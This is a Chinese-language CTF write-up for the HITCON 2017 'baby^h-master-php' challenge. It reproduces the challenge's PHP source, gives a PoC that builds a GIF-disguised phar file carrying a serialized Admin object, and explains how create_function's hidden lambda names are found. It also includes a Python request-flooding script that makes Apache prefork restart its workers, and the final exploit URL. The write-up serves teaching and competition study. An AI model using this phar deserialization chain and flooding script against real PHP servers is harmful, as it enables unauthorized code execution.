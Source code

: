 # hitcon-2017-baby^h-master-php

题目直接给出源码

```php
<?php 
    $FLAG    = create_function("", 'die(`/read_flag`);'); 
    $SECRET  = `/read_secret`; 
    $SANDBOX = "/var/www/data/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);  
    @mkdir($SANDBOX); 
    @chdir($SANDBOX); 

    if (!isset($_COOKIE["session-data"])) { 
        $data = serialize(new User($SANDBOX)); 
        $hmac = hash_hmac("sha1", $data, $SECRET); 
        setcookie("session-data", sprintf("%s-----%s", $data, $hmac)); 
    } 

    class User { 
        public $avatar; 
        function __construct($path) { 
            $this->avatar = $path; 
        } 
    } 

    class Admin extends User { 
        function __destruct(){ 
            $random = bin2hex(openssl_random_pseudo_bytes(32)); 
            eval("function my_function_$random() {" 
                ."  global \$FLAG; \$FLAG();" 
                ."}"); 
            $_GET["lucky"](); 
        } 
    } 

    function check_session() { 
        global $SECRET; 
        $data = $_COOKIE["session-data"]; 
        list($data, $hmac) = explode("-----", $data, 2); 
        if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac)) 
            die("Bye"); 
        if ( !hash_equals(hash_hmac("sha1", $data, $SECRET), $hmac) ) 
            die("Bye Bye"); 

        $data = unserialize($data); 
        if ( !isset($data->avatar) ) 
            die("Bye Bye Bye"); 
        return $data->avatar; 
    } 

    function upload($path) { 
        $data = file_get_contents($_GET["url"] . "/avatar.gif"); 
        if (substr($data, 0, 6) !== "GIF89a") 
            die("Fuck off"); 
        file_put_contents($path . "/avatar.gif", $data); 
        die("Upload OK"); 
    } 

    function show($path) { 
        if ( !file_exists($path . "/avatar.gif") ) 
            $path = "/var/www/html"; 
        header("Content-Type: image/gif"); 
        die(file_get_contents($path . "/avatar.gif")); 
    } 

    $mode = $_GET["m"]; 
    if ($mode == "upload") 
        upload(check_session()); 
    else if ($mode == "show") 
        show(check_session()); 
    else 
        highlight_file(__FILE__); 
```

可以看出 flag 在 `Admin` 类中，如果能构造反序列化触发 `__destruct` 函数就能获取 flag

## phar 反序列化

简单的说，当使用 phar:// 协议读取 phar 文件的时候，文件内容会被解析成 phar 对象，然后 phar 对象内的 Metadata 信息会被反序列化。

在 `upload` 函数中调用了 `file_get_content()` 函数,可以利用 `phar://` 协议读取本地 `phar` 文件(phar协议不支持远程文件)

因此只需在 VPS 生成一个 phar 文件, `metadata` 设置为 Admin 对象，就能调用 `__destruct` 函数，然后利用 upload 访问 `?m=upload&url=http://ip` 写到服务器

p牛的 PoC：
```php
<?php
class Admin {
    public $avatar = 'orz';  
}
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p['file.php'] = '<?php ?>';
$p->setMetadata(new Admin());
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
rename(__DIR__ . '/avatar.phar', __DIR__ . '/avatar.gif');
?>
```

## creat_function
在 payload 下载后，我们便需要访问它，但是获取 flag 的方式有两种
一是使用 `my_function_$random` 函数，但是 `$random` 是随机数，不可能猜出来；二便是直接调用 `$FLAG` 函数

```php
$FLAG = create_function("", 'die(`/read_flag`);');
```

但 `$FLAG` 函数是通过 `create_function` 创建，并没有设置函数名字，但其实这里声明的函数是有函数名的，匿名函数会被设置为`\x00lambda_%d`，`%d` 是从 1 递增的，直到最大长度结束。


但是我们并不知道当前的匿名函数到底有多少个, 因为每访问一次题目就会生成一个匿名函数。

## Apache-prefork

来自 Pr0phet 师傅的 wp:
> Apache-prefork 模型(默认模型)在接受请求后会如何处理,首先Apache会默认生成5个child server去等待用户连接, 默认最高可生成256 个 child server, 这时候如果用户大量请求, Apache就会在处理完 MaxRequestsPerChild 个tcp连接后kill掉这个进程,开启一个新进程处理请求(这里猜测Orange大大应该修改了默认的0,因为0为永不kill掉子进程 这样就无法fork出新进程了) 在这个新进程里面匿名函数就会是从1开始的了

这里我们可以通过大量的请求来迫使 Pre-fork 模式启动的 Apache 启动新的线程，这样 `%d` 会刷新为1，就可以预测了。


运行 Orange 师傅给的 PoC

```Python
import requests
import socket
import time
from multiprocessing.dummy import Pool as ThreadPool
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass

def run(i):
    while 1:
        HOST = '127.0.0.1'
        PORT = 8007
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((HOST, PORT))
        s.sendall('GET / HTTP/1.1\nHost: 127.0.0.1:8007\nConnection: Keep-Alive\n\n')
        # s.close()
        print 'ok'
        time.sleep(0.5)

i = 8
pool = ThreadPool( i )
result = pool.map_async( run, range(i) ).get(0xffff)
```

同时尝试访问 `?m=upload&url=phar:///var/www/data/xxx&lucky=%00lambda_1`（xxx为 orange+ip 的 md5） 拿到 Flag

## References
[hitconDockerfile/hitcon-ctf-2017/baby^h-master-php-2017](https://github.com/Pr0phet/hitconDockerfile/tree/master/hitcon-ctf-2017/baby%5Eh-master-php-2017)
[HITCON2017-writeup整理](https://lorexxar.cn/2017/11/10/hitcon2017-writeup/)


